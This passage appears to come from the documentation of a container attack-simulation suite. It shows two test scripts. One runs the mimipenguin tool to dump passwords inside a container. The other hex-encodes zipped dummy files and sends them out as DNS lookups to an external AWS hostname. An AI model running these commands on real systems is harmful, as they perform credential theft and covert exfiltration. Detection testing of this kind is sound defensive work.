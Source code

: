 #### 6.2 Credential Access Test

```bash
#!/bin/bash
# Credential_Access_via_Credential_Dumping
echo -e "\e[92mExecuting Credential Access via Credential Dumping. This script is running mimipenguin trying to dump passwords from inside the container environment"
./bin/mimipenguin/mimipenguin.sh
```

**Expected Results:**

![alt text](images/mimipenguin.png)

### 7. Data Exfiltration Test

```bash
#!/bin/bash
# Exfiltration_via_Exfiltration_Over_Alternative_Protocol
echo -e "\e[92mExecuting Exfiltration Over Alternative Protocol using a DNS tool sendng requests to large domain names. This will take a moment to execute..."

cd /tmp
touch {1..7}.tmp
zip -qm - *tmp|xxd -p >data
for dat in `cat data `; do dig $dat.legit.term01-b-449152202.us-west-1.elb.amazonaws.com; done > /dev/null 2>&1
rm data
```

**Expected Results:**
